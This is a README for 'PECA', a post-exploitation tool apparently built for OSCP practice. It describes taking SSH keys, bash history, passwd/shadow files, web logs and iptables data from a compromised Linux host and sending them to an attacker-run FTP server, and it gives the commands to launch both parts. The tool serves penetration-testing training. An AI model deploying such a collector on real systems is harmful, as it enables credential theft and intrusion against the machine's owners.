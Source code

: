 # PECA
Post Exploitation Collection Agent

##### Requirments
    To run the server you will need to have pyftpdlib installed
     
Note: For educational use only
```
            ____  _______________
           / __ \/ ____/ ____/   |
          / /_/ / __/ / /   / /| |
         / ____/ /___/ /___/ ___ |
        /_/   /_____/\____/_/  |_|
    Post Exploitation Collection Agent 
```
##### Intro:
    Peca was designed to help collect key files from linux 
    machines after exploitation has occured. Originally
    designed to help with data gathering during the OSCP

##### Features:

  * Collects ssh keys from root and home directories
  * Collects .bash* from root and home directories
  * Collects passwd/shadow/group files
  * Collects webservice logs from popular services
  * Collects IPTable data


##### Use:

Simple start the server *Sudo is needed for port 21*
```
    ./server.py --ip <iphere> --port 21 --user user --password user
```

Then drop the peca script on the client
```
    ./peca.py --server <iphere> --port 21 --user user --password user
```

##### Technical:
```
	Communicates utilizing the ftp protocol.
```